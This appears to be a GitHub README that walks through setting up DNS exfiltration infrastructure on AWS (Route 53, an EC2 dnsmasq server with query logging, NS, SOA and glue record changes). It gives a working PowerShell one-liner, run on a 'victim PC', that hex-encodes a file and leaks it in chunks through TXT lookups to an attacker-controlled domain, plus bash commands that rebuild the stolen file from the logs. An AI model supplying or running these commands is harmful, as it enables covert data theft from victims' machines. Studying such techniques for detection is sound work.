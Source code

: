 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
`sudo yum install dnsmasq`  
`sudo nano /etc/dnsmasq.conf`  
  
Then input the content below into /etc/dnsmasq.conf, right at the bottom of the config file    
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or use the commands below to restart dnsmasq  
`ps -aux | grep dnsmasq`  
`sudo kill <pid of dnsmasq>`  
`sudo systemctl restart systemd-networkd.service`  
`sudo dnsmasq`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/b0cfaf2f-93c0-4967-957c-cd3269241435)
  

## Step 5: Go to Route 53 config, note down default SOA and NS records  
Route 53 > click Hosted zones  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/50f03726-cfaf-4c20-b2c4-b5f1186cc1ee)


## Step 6: In Route 53 config, create 2x A Record to point NS record to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  

  
## Step 9: Modify glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)


Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 10: Use CMD to nslookup as a test
Launch cmd prompt on victim PC then run the command below  
`nslookup -q=TXT 17April2024206pm.<yourdomain.com> ns1.<yourdomain.com>`  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1cf48904-5c60-4e33-924d-108513b1b5e4)


## Step 11: Check your DNS logs in EC2
In EC2 DNS server, run the command below and observe your nslookup query being logged.  
`sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"`  


## Step 12: Powershell command to hex encode a file, split, and do nslookup
Launch powershell prompt on victim PC then run command below.  
   
`cd <to folder holding file to exfiltrate>`  
`certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/2624b595-5ce0-423b-901b-8702de5a99c2)
  

## Step 13: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing
In EC2 DNS server, run the commands below to combine assemble hex into file.  

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > <file to exfiltrate from Step 12> && cat <file to exfiltrate from Step 12>`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/c18d73f6-f166-4f47-aaa0-dc4a479cd2b3)

## Troubleshooting Tips:  
  
### Step 10, nameserver issue
In Step 10, sometimes you need to specify nameserver (ns1.<yourdomain.com>) in the nslookup command, sometimes you don't. I'm unsure why that is so.  
Remove or add nameservers as needed according to what you experience.  
You'll also need to remove or add nameservers from the command in Step 12!  
  
### Step 11, clearing logs
After some tests you might want to clear your logs. Use the command below:  
`sudo nano /var/log.dnsmasq.log`  
In nano, press `Alt + T` to clear everything in the log file  
Press `Ctrl + X` to save  

### Step 13, blank file output
There may be rare occasions where your output file is blank. Troubleshoot with commands below:  
  
Check that you're "cutting" correctly from the dnsmasq log using `sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' `.  
  
Adjust "-f 6" to "-f 5" or "-f 7" to change where to cut the log. Once you get the right spot, modify cut command accordingly.
